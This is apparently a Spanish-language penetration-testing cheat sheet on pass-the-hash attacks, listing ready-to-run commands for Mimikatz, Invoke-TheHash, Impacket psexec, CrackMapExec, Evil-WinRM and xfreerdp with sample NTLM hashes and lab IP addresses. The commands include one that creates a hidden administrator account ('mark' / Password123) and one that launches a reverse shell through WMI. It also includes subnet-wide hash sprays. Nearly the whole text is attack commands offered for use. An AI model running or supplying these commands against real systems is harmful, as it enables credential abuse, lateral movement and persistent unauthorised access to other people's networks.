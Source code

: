 Si encontramos un hash NTLM podemos hacer uso del mismo aprovechando las facilidades que ofrecen los SO para correr servicios sin tener que poner la contraseña una y otra vez


### WINDOWS
##### Pass the hash con Mimikatz:
Requerimos:
- Hash NTLM o RC4
- User
- Dominio

  mimikatz.exe privilege::debug "sekurlsa::pth /user:<user> /rc4:<hash> /domain:<dominio o nombre del host> /run:<.exe a ejecutar>" exit

##### PTH con Powershell & Invoke-TheHash:
Target - Hostname or IP address of the target.
Username - Username to use for authentication.
Domain - Domain to use for authentication. This parameter is unnecessary with local accounts or when using the @domain after the username.
Hash - NTLM password hash for authentication. This function will accept either LM:NTLM or NTLM format.
Command - command to run after connection
https://github.com/Kevin-Robertson/Invoke-TheHash
Import-Module .\Invoke-TheHash.psd1

Invoke-SMBExec -Target <ip/hostname> -Domain <domain> -Username <username> -Hash <hash> -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose

Tambien podemos usar revshell para generar una shell reversa y ejecutarla con WMIExec:
creamos la reverse shell:
https://www.revshells.com/:

 Invoke-WMIExec -Target <hostname/ip> -Domain <domain> -Username <username> -Hash <hash> -Command "<reverse_shell_generada>"


################################Linux
#### Impacket:
impacket-psexec administrator@10.129.201.126 -hashes :30B3783CE2ABF1AF70F77D0660CF3453

#####Crackmapexec:
crackmapexec smb 172.16.1.0/24 -u Administrator -d . -H 30B3783CE2ABF1AF70F77D0660CF3453

tambien podemos buscarlo con local accounts:
sudo crackmapexec smb --local-auth 172.16.5.0/23 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +

#####Evil-winRM:
evil-winrm -i 10.129.201.126 -u Administrator -H 30B3783CE2ABF1AF70F77D0660CF3453

#####RDP:
xfreerdp  /v:10.129.201.126 /u:julio /pth:64F12CDDAA88057E06A81B54E73B949B
